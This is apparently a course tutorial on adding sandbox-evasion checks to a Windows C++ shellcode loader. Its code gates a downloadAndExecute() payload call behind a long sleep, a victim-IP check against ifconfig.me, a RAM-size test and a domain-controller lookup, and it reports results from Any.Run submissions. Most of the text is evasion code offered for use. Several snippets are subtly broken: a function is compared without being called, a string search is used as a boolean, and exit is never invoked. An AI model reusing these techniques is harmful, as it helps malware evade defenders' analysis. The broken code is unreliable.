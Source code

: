 # Implementing evasion techniques

## Taking a Nap

Take the template code from [Common sandbox evasion techniques](techniques.md) and add a Sleep statement for 120,000ms 
to it. This translates to roughly 120 seconds or 2 minutes. Generally, you would want a time closer to 5 minutes to 
be sure; but 2 minutes will suffice for testing purposes: 

```text
int main() {
    Sleep(120000);
    downloadAndExecute();
    return 0;
} 
```

Compile and upload the code to [Any.Run](http://any.run/):

* [Sleep Bypass](https://app.any.run/tasks/0799e9b3-dddc-4838-ba2d-c95fc0a7e63b)
* [No Sleep Bypass](https://app.any.run/tasks/ad3cf5b4-1bdf-4005-8578-507334f5c8ac)

A simple technique, incredibly powerful and has allowed us to run out Any.Run's one-minute timer. This method may or 
may not work due to various blog posts that have been published showing how Blue Teamers can create sleep timer 
bypasses. A better implementation could be to waste computing time by doing heavy math.

## Geolocation Filtering

Leveraging Geolocation blocks. Fortunately, there is a good amount of code that is already written for us. Portions 
of the `downloadAndExecute()` function can be re-used for this:

* Website URL (formerly the `c2URL` variable)
* Internet Stream (formerly the `stream` variable)
* String variable (formerly the `s` variable)
* Buffer Space (formerly the `Buff` variable)
* Bytes Read (formerly the `unsigned long bytesRead` variable)
* Lastly, the `URLOpenBlockingStreamA` function

```text
BOOL checkIP() {   
 // Declare the Website URL that we would like to vicit
    const char* websiteURL = "<https://ifconfig.me/ip>";   
 // Create an Internet Stream to access the website
    IStream* stream;   
 // Create a string variable where we will store the string data received from the website
    string s;   
  // Create a space in memory where we will store our IP Address
    char buff[35];   
    unsigned long bytesRead;   
 // Open an Internet stream to the remote website
    URLOpenBlockingStreamA(0, websiteURL, &stream, 0, 0);   
 // While data is being sent from the webserver, write it to memory
    while (true) {       
        stream->Read(buff, 35, &bytesRead);       
        if (0U == bytesRead) {           
            break;       
        }       
        s.append(buff, bytesRead);   
    }   
  // Compare if the string is equal to the targeted victim's IP. If true, return the check is successful. Else, fail the check.
    if (s == "VICTIM_IP") {       
        return TRUE;   
    }   
    else {       
    return FALSE;   
    }
} 
```

Modify `main`:

```text
int main(){
    if(checkIP() == TRUE){
        downloadAndExecute();
        return 0;
    }
    else {
        cout << "HTTP/418 - I'm a Teapot!";
        return 0;
    }
}
```

Compile and upload the code to [Any.Run](http://any.run/):

* [with an IP Address Filter](https://app.any.run/tasks/dbc2e81a-d7da-4ee5-a628-a5d2d17a0c1a)
* [without an IP Address Filter](https://app.any.run/tasks/6c721d61-b06a-4497-84fd-1aea34671085)

`ifconfig.me` is flagged as a `questionable/Potentially Malicious `site used to check for your external IP Address. 
This Sandbox evasion method ended up hurting our score, so it should be used as a last resort or with a recently 
deployed/custom IP Address checking server. 

## Checking system information

Start off the System Information category with - the amount of RAM a system has. It is important to note that 
Windows measures data in a non-standard format. If you have ever bought a computer that said it has 
"256GB of SSD Storage", after turning it on, you would have closer to 240GB. This is because Windows measures data 
in units of 1024-bytes instead of 1000-bytes. This can get confusing very quickly. Fortunately for us, we will be 
working in such small amounts of memory that accuracy can be a best guess instead of an exact number. Now that we 
know this, how can we determine how much memory is installed on the System?

We only need the Windows header file included, and we can call a specific Windows API, 
[GlobalMemoryStatusEx](https://docs.microsoft.com/en-us/windows/win32/api/sysinfoapi/nf-sysinfoapi-globalmemorystatusex), 
to retrieve the data:

1. Declare the [MEMORYSTATUSEX](https://docs.microsoft.com/en-us/windows/win32/api/sysinfoapi/ns-sysinfoapi-memorystatusex) struct
2. Set the size of the `dwLength` member to the size of the struct
3. Call the `GlobalMemoryStatusEx` Windows API to populate the struct with the memory information
4. We want the total amount of physical memory installed on the system, so we will print out the `ullTotalPhys` member 
of the `MEMORYSTATUSEX` struct to get the size of the memory installed in the system in Bytes. 
5. Divide by 1024 3x to get the value of memory installed in GiB. 

In C++:

```text
#include <iostream>
#include <Windows.h>
using namespace std;
int main() {
// Declare the MEMORYSTATUSEX Struct    
   MEMORYSTATUSEX statex;
// Set the length of the struct to the size of the struct    
   statex.dwLength = sizeof(statex);
// Invoke the GlobalMemoryStatusEx Windows API to get the current memory info    
   GlobalMemoryStatusEx(&statex);
// Print the physical memory installed on the system    
   cout << "There is " << statex.ullTotalPhys/1024/1024/1024 << "GiB of memory on the system.";
} 
```

Most Sandboxes have 4GB of RAM dedicated to the machine, so we should check and see if the memory count is greater 
than 5; if it is not, exit the program; if it is, continue execution. 

```text
BOOL memoryCheck() {
// This function will check and see if the system has 5+GB of RAM
// Declare the MEMORYSTATUSEX Struct    
    MEMORYSTATUSEX statex;
// Set the length of the struct to the size of the struct    
    statex.dwLength = sizeof(statex);
// Invoke the GlobalMemoryStatusEx Windows API to get the current memory info    
    GlobalMemoryStatusEx(&statex);
// Checks if the System Memory is greater than 5.00GB    
    if (statex.ullTotalPhys / 1024 / 1024 / 1024 >= 5.00) {        
       return TRUE;    
    } else {        
       return FALSE;
    }
}

int main() {
// Evaluates if the installed RAM amount is greater than 5.00 GB,
//if true download Shellcode, if false, exit the program.    
if (memoryCheck() == TRUE) {        
    downloadAndExecute();    
    } else {        
       exit;    
    }
return 0;
} 
```

Compile and upload the code to [Any.Run](http://any.run/):

* [with the Memory Check function](https://app.any.run/tasks/e2f6a64b-02ef-43ca-bea5-e724b234001c)
* [without the Memory Check function](https://app.any.run/tasks/6c721d61-b06a-4497-84fd-1aea34671085)

In the first submission, our memory check function works without any issue and gracefully exits the program when it 
notices the device has less than 5GB of RAM. The code functions as intended.

## Querying Network Information

Querying information about the Active Directory domain can be kept simple by querying the name of a Domain Controller 
using the [NetGetDCName](https://docs.microsoft.com/en-us/windows/win32/api/lmaccess/nf-lmaccess-netgetdcname) Windows 
API.

```text
BOOL isDomainController(){
// Create a long pointer to Wide String for our DC Name to live in
    LPCWSTR dcName;  
// Query the NetGetDCName Win32 API for the Domain Controller Name
    NetGetDCName(NULL, NULL, (LPBYTE *) &dcName);
// Convert the DCName from a Wide String to a String
    wstring ws(dcName);
    string dcNewName(ws.begin(), ws.end());
// Search if the UNC path is referenced in the dcNewName variable. If so, there is likely a Domain Controller present in the environment. If this is true, pass the check, else, fail.
    if ( dcNewName.find("\\\\"){
          return TRUE;
    } else {
          return FALSE;
    }
} 

int main() {
    if (isDomainController == TRUE) {
        downloadAndExecute();
    } else {
        cout << "Domain Controller Not Found!";
    }
} 
```

Compile and upload to VirusTotal: Looking at the results of the SysInternals Sandbox, we can see that the Sandbox 
evasion technique worked. No outbound request to Cloudflare was made. 

## Adding External Dependencies in Visual Studio

To add a new DLL to the project file, 

1. Open project, right-click on the Project name in the "Solution Explorer".
2. Click Properties at the bottom of the list; this will open a new view. 
3. Expand the "Linker" tab and select the "Input" submenu. 
4. Add the Netapi32 Library.


